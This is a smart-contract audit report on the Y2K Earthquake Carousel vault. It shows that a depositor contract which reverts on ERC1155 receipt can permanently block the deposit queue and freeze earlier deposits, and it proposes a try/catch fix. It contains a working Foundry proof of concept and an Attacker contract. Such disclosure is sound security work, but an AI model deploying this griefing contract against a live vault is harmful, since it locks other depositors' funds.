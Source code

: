 joestakey

high

# An attacker can DOS `Carousel.mintDepositQueue()`, freezing tokens of all the previous deposits.

## Summary
Due to the ERC1155 hook, `Carousel.mintDepositInQueue()` can be DOS, which freezes funds of all the previous deposits

## Vulnerability Detail
Depositors can deposit at any time using `epochId == 0` in `deposit()`, which transfers underlying tokens from the depositor into the `Carousel`, then records the deposit in the queue.

```solidity
File: Earthquake/src/v2/Carousel/Carousel.sol
494: } else {
495:             depositQueue.push(
496:                 QueueItem({assets: _assets, receiver: _receiver, epochId: _id})
497:             );
498: 
499:             emit DepositInQueue(msg.sender, _receiver, _id, _assets);
500:         }
```

The deposits in the queue are then minted into the next available epoch by a relayer using `mintDepositInQueue()`.

One important thing to note is that the function always handles the last deposit in the queue first, then handling previous deposits afterwards (FILO)

```solidity
File: Earthquake/src/v2/Carousel/Carousel.sol
330:             uint256 i = length - 1;//@audit length = depositQueue.length
331: while ((length - _operations) <= i) { 
332:             // this loop impelements FILO (first in last out) stack to reduce gas cost and improve code readability
333:             // changing it to FIFO (first in first out) would require more code changes and would be more expensive
334:             _mintShares(
335:                 queue[i].receiver,
336:                 _epochId,
337:                 queue[i].assets - relayerFee
338:             );
```

`_mintShares()` mints shares to the depositor, in the form of an ERC1155 token. `ERC1155._mint()` has a safety hook to ensure the receiver handles this type of tokens:

```solidity
File: Earthquake/lib/openzeppelin-contracts/contracts/token/ERC1155/ERC1155.sol
285: _doSafeTransferAcceptanceCheck(operator, address(0), to, id, amount, data);
...
467: function _doSafeTransferAcceptanceCheck(
468:         address operator,
469:         address from,
470:         address to,
471:         uint256 id,
472:         uint256 amount,
473:         bytes memory data
474:     ) private {
475:         if (to.isContract()) {
476:             try IERC1155Receiver(to).onERC1155Received(operator, from, id, amount, data) returns (bytes4 response) {
477:                 if (response != IERC1155Receiver.onERC1155Received.selector) {
478:                     revert("ERC1155: ERC1155Receiver rejected tokens");
479:                 }
480:             } catch Error(string memory reason) {
481:                 revert(reason);
482:             } catch {
483:                 revert("ERC1155: transfer to non ERC1155Receiver implementer");
484:             }
485:         }
486:     }
```

This can be exploited by a depositor to DOS `mintDepositQueue()`: if the depositor is a smart contract that does not implement `onERC1155Received()` or revert when called, `mintDepositQueue()` will revert [here](https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/Carousel/Carousel.sol#L334-L338).

## Impact
`mintDepositQueue()` is DOSed.
Because it handles deposits in a FILO manner, this does not impact future deposits.

It however blocks all previous deposits from being handled.

This means these previous depositors have essentially lost their underlying tokens, as there is no way for them to retrieve them.

## Proof Of Concept

This modification of `Carousel.test.t.testDepositInQueue()` shows the issue:

```diff
+    Attacker attacker;
    function setUp() public {
+        attacker = new Attacker();
        vm.warp(1675884389);

        emissionsToken = address(new MintableToken("EmissionsToken", "etkn"));

        UNDERLYING = address(new MintableToken("UnderLyingToken", "utkn"));

        vault = new Carousel(
                Carousel.ConstructorArgs(
                        false,
                        UNDERLYING,
                        "Vault",
                        "v",
                        "randomURI",
                        TOKEN,
                        STRIKE,
                        controller,
                        TREASURY,
                        emissionsToken,
                        relayerFee,
                        depositFee
                )
        );


        // deal(UNDERLYING, address(this), 100 ether, true);

        deal(UNDERLYING, USER, 1000 ether, true);
        deal(UNDERLYING, USER2, 1000 ether, true);
        deal(UNDERLYING, USER3, 1000 ether, true);
        deal(UNDERLYING, USER4, 1000 ether, true);
        deal(UNDERLYING, USER5, 1000 ether, true);
        deal(UNDERLYING, USER6, 1000 ether, true);
    }

    function testDepositInQueue() public {
        uint40 _epochBegin = uint40(block.timestamp + 1 days);
        uint40 _epochEnd = uint40(block.timestamp + 2 days);
        uint256 _epochId = 1;
        uint256 _emissions = 100 ether;

        deal(emissionsToken, address(vault), 100 ether, true);
        vault.setEpoch(_epochBegin, _epochEnd, _epochId);
        vault.setEmissions( _epochId, _emissions);

        vm.startPrank(USER);
        IERC20(UNDERLYING).approve(address(vault), 10 ether);
        vault.deposit(0, 10 ether, USER);
        vm.stopPrank();

        uint256 _queueLength = 1;
        assertEq(vault.getDepositQueueLenght(), _queueLength);
        // test revert cases
        // should revert if epochId is 0 as this epoch is not supposed to minted ever
        vm.expectRevert(Carousel.InvalidEpochId.selector);
        vault.mintDepositInQueue(0, _queueLength);
            // @note deprecated test:
            // should revert if operations are not in queue length
            // vm.expectRevert(Carousel.OverflowQueue.selector);
            // vault.mintDepositInQueue(_epochId, 2);
        // should revert if epoch already started
        vm.warp(_epochBegin + 100);
        vm.expectRevert(VaultV2.EpochAlreadyStarted.selector);
        vault.mintDepositInQueue(_epochId, 1);

        vm.warp(_epochBegin - 1 days);
        // should revert if epoch does not exist
        vm.expectRevert(VaultV2.EpochDoesNotExist.selector);
        vault.mintDepositInQueue(3, 1);
        
        vm.startPrank(relayer);
        // setting operations to 5 should still only mint 1 as queue length is 1

+        /*
+        ATTACK BEGINNING
+        */
+        vm.stopPrank();
+        vm.startPrank(USER);
+        IERC20(UNDERLYING).transfer(address(attacker), 10 gwei);
+        attacker.makeDeposit(address(vault));

+        vm.expectRevert("ERC1155: transfer to non ERC1155Receiver implementer");
        vault.mintDepositInQueue(_epochId, 5);
        vm.stopPrank();
+        /*
+        ATTACK ENDED
+        */
```

Add the `Attacker.sol` file to the `test` folder:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.17;

import "../../src/v2/interfaces/ISemiFungibleVault.sol";

contract Attacker  {

    function onERC1155Received(
        address operator,
        address from,
        uint256 id,
        uint256 value,
        bytes calldata data
    ) external returns (bytes4) {
        revert();
    }

    function makeDeposit(address _carousel) external payable {
        ISemiFungibleVault(_carousel).asset().approve(_carousel, 10 gwei);
        ISemiFungibleVault(_carousel).deposit(0, 10 gwei, address(this));
    }
}
```

## Code Snippet
https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/Carousel/Carousel.sol#L334-L338

## Tool used
Manual Review, Foundry

## Recommendation
Place the `_mintShares()` call in a `try/catch` block, so that one deposit in the queue cannot block others from being processed.
The `catch` block could write some info about the failed deposit in storage so that the depositor could get their shares in another manner, or could simply transfer the underlying tokens back to them.
